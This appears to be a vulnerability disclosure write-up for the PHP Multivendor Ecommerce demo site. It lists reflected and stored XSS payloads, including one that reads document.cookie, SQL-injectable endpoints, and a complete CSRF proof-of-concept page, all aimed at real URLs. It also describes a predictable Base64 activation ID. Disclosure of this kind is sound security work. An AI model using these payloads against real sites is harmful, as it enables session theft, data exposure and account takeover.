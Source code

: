 ### PHP Multivendor Ecommerce- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/CSRF/Arbitrary-Binding

Well,  when I pentest the official demo site of PHP Multivendor Ecommerce, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

###### XSS1

```
http://www.fxwebsolution.com/demo/arthi/multivendor/category.php?chid1=40%27%22%3E123%3Cimg%20src=x%20console.log(/xss/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss1.png)

###### XSS2

```
http://www.fxwebsolution.com/demo/arthi/multivendor/seller-view.php?usid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss2/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss2.png)

###### XSS3

```
http://www.fxwebsolution.com/demo/arthi/multivendor/shopping-cart.php?cusid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss3/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss3.png)


###### XSS4

````
http://www.fxwebsolution.com/demo/arthi/multivendor/my_wishlist.php?fid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss4/)%3E123%3C%27%22
````

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss4.png)


##### Stored-XSS 


```
http://www.fxwebsolution.com/demo/arthi/multivendor/admin/sellerupd.php?upd=2&uid=36&id=61
```

POST parameters:

```
------WebKitFormBoundary2wspk6wZ1zP1BEHR
Content-Disposition: form-data; name="companyname"

abc pvt ltd'"><svg/onload=alert(document.cookie)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sxss.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sxss2.png)


#### SQL Injection:

##### sqli1
```
http://www.fxwebsolution.com//demo/arthi/multivendor/seller-view.php?usid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli1.png)

##### sqli2

```
http://www.fxwebsolution.com/demo/arthi/multivendor/shopping-cart.php?cusid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli2.png)


##### sqli3

```
http://www.fxwebsolution.com/demo/arthi/multivendor/my_wishlist.php?fid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli3.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.fxwebsolution.com\/demo\/arthi\/multivendor\/admin\/sellerupd.php?upd=2&uid=36&id=61", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary2wspk6wZ1zP1BEHR");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"idvalue\"\r\n" + 
          "\r\n" + 
          "61\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"upd\"\r\n" + 
          "\r\n" + 
          "2\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"user_mail\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"companyname\"\r\n" + 
          "\r\n" + 
          "abc pvt ltd\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"companyname\"\r\n" + 
          "\r\n" + 
          "abc pvt ltd\'\"\x3e\x3csvg/onload=alert(document.cookie)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"about\"\r\n" + 
          "\r\n" + 
          "ihguifhugjhufdhgjhd\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"store\"\r\n" + 
          "\r\n" + 
          "avc\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"cphone\"\r\n" + 
          "\r\n" + 
          "2147483647\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"policy\"\r\n" + 
          "\r\n" + 
          "gfgfvhhjj\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"address1\"\r\n" + 
          "\r\n" + 
          "chennai\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"address2\"\r\n" + 
          "\r\n" + 
          "chennai\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"proof\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"_submit\"\r\n" + 
          "\r\n" + 
          "Save\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.

#### Arbitrary-Binding

I found when we're register the account, we should verify the email to activate the account.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding1.png)

But the url which send to the email is predictable. For example, the url the system send to my email is:
```
http://www.fxwebsolution.com/demo/arthi/multivendor/sign-in.php?eqid=NTA=
```
After Base64 decode:
```
http://www.fxwebsolution.com/demo/arthi/multivendor/sign-in.php?eqid=50
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding2.png)

So it's easy to predict or enum the eid to activate our account, then we can bind the account to any email-account, even if it's not exist.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding3.png)

In a word, it's a arbitrary-Binding bug here.